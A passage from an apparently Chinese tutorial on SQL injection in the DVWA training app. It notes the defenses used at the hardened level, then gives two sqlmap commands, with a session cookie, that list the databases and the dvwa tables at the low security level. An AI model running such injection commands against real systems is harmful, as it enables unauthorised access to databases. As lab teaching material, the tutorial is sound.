 
使用 anti-token 机制防 CSRF 攻击，检查 id 是不是数字，使用 prepare 预编译再绑定变量a 等方法严格过滤用户输入，有效抵制了sql注入。


## sqlmap注入


除了使用手工注入，还可以使用自动化工具sqlmap进行注入，相对于手工来说更快，更方便。


### 使用sqlmap进行low等级的注入


```sql
sqlmap -u "http://192.168.1.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"  --cookie "security=low; PHPSESSID=5bel9eq7h1tenbo6j15iu38ij5" --dbs

```


![20190502233455.png](../post_images/815208642fb7e5fd3eb08c7c2032a3d9.png)


可看到sqlmap将所有可利用的sql注入类型全部展示了出来，并且将所有数据库也注入了出来。


```sql
sqlmap -u "http://192.168.1.2/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#"  --cookie "security=low; PHPSESSID=5bel9eq7h1tenbo6j15iu38ij5" -D dvwa --tables

```


![20190502234210.png](../post_images/b084a52fcd31eca8d868bdad805e7387.png)
